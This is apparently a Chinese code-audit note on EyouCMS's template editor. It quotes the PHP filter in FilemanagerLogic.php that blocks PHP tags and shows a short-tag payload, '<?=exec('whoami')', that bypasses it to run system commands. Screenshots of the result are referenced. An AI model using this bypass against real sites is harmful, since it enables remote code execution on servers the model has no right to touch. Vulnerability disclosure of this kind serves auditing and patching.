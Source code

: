 

0x00 漏洞定位分析


漏洞定位到关键文件application\admin\logic\FilemanagerLogic.php 


```
$content = htmlspecialchars_decode($content, ENT_QUOTES);
            if (preg_match('#<([^?]*)\?php#i', $content) || (preg_match('#<\?#i', $content) && preg_match('#\?>#i', $content)) || preg_match('#\{eyou\:php([^\}]*)\}#i', $content) || preg_match('#\{php([^\}]*)\}#i', $content)) {
                return "模板里不允许有php语法，为了安全考虑，请通过FTP工具进行编辑上传。";
            }

```

很明显主要的目的是不让传带php标签的内容，大体规则如下。
1、内容中不能有<?php

2、内容中不能同时有<? 和?>

3、内容中不能有{eyou:phpxxx

4、内容中不能有{php xxx

0x01 EXP编写

很明显插入 <?=exec('whoami')能进行绕过

![图片](https://github.com/Londly01/audit-hub/assets/118274389/4140dd3a-ed30-442d-8e26-ba45601521e4)


成功命令执行

![图片](https://github.com/Londly01/audit-hub/assets/118274389/21b24246-0796-405d-b0e7-c0bbbc17ab66)






